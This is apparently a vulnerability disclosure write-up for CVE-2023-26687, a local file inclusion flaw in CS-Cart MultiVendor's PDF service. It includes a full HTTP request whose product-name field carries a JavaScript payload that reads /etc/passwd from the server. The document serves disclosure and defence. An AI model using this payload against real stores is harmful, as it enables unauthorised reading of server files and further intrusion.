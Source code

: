 # CVE-2023-26687 - Local File Inclusion vulnerability in CS-Cart MultiVendor
This vulnerability allows an attacker to read arbitrary files from the CS-CART PDF cloud service server by manipulating the input passed to the PDF processor. The vulnerability was identified as a result of the PDF processor not properly filtering HTML tags, which allowed for the execution of JavaScript in the context of the processor.

## Testing Environment
We utilized the official .zip file obtained from the CS-Cart website to perform a default installation of "CS-Cart MultiVendor 4.16.1" with example data. The installation was conducted on a fully patched Ubuntu Server 22.04 running PHP 8.1.2 and Apache/2.4.52.

## Exploitation
There are two methods to exploit this vulnerability. The initial approach involves authenticated mode and utilizes the "PDF Documents" add-on which is installed and activated by default. The second method is an unauthenticated approach that simply involves calling the CS-Cart cloud service API directly.

<img src="cs-cart-lfi1.png">

We have edited a product name in order to include valid JavaScript which reads a file from disk:

<img src="cs-cart-lfi2.png">

The full payload is displayed below in the HTTP request:
```
POST /admin.php HTTP/1.1
Host: 172.16.85.150
Content-Length: 10149
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.16.85.150
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryltAdAs72z20yBxQP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.16.85.150/admin.php?dispatch=products.update&product_id=12
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: klaro=%7B%22paypal%22%3Atrue%2C%22facebook%22%3Atrue%2C%22pinterest%22%3Atrue%2C%22twitter%22%3Atrue%2C%22yandex%22%3Atrue%2C%22google_maps%22%3Atrue%7D; sid_customer_179e8=bdc0f02d0f9664b4e9f38f9f00f42b50-C; sid_vendor_179e8=0f6a5cca23a94bc5e7aa1fd6ad344858-A; sid_admin_179e8=b5bd24184e18e9a95fc2380471d5b6cc-A; te_selected_path=bright_theme%2Ftemplates%2Fblocks%2Fmy_account.tpl
Connection: close

------WebKitFormBoundaryltAdAs72z20yBxQP
Content-Disposition: form-data; name="fake"

1
------WebKitFormBoundaryltAdAs72z20yBxQP
Content-Disposition: form-data; name="selected_section"

detailed
------WebKitFormBoundaryltAdAs72z20yBxQP
Content-Disposition: form-data; name="product_id"

12
------WebKitFormBoundaryltAdAs72z20yBxQP
Content-Disposition: form-data; name="product_data[product]"

100g<script> a = new XMLHttpRequest();a.onload= function(){document.write(this.responseText);};a.open("GET","file:///etc/passwd");a.send();</script>
------WebKitFormBoundaryltAdAs72z20yBxQP
***TRUNCATED***
```

To make the process easier, we added the product with the JavaScript payload in its name to an existing order (#96 from the demo products).

<img src="cs-cart-lfi3.png">

Afterward, we proceeded to create the invoice in PDF format.

<img src="cs-cart-lfi4.png">

The resulting PDF exhibited the contents of the /etc/passwd file retrieved from the server.

<img src="cs-cart-lfi5.png">
